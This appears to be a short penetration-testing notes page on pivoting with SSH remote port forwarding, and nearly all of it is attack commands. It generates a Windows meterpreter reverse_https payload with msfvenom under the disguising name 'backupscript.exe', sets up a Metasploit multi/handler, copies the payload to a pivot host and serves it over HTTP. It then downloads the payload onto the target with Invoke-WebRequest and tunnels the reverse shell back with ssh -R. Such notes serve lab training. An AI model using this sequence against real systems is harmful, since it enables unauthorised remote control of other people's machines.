 
![Screenshot_3](https://github.com/kiro6/penetration-testing-notes/assets/57776872/139f0117-4f36-436d-b4e2-29a9a58f1cec)

#### Creating a Windows Payload with msfvenom
```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

#### Configuring & Starting the multi/handler
```shell
use exploit/multi/handler


[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

#### Transferring Payload to Pivot Host
```shell
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

#### Starting Python3 Webserver on Pivot Host
```shell
python3 -m http.server 8123
```

#### Downloading Payload from Windows Target
```shell
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

#### Using SSH -R , tell the pivot to listen to any coming req to `8080` and forward it to our machine in `8000`
```shell
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
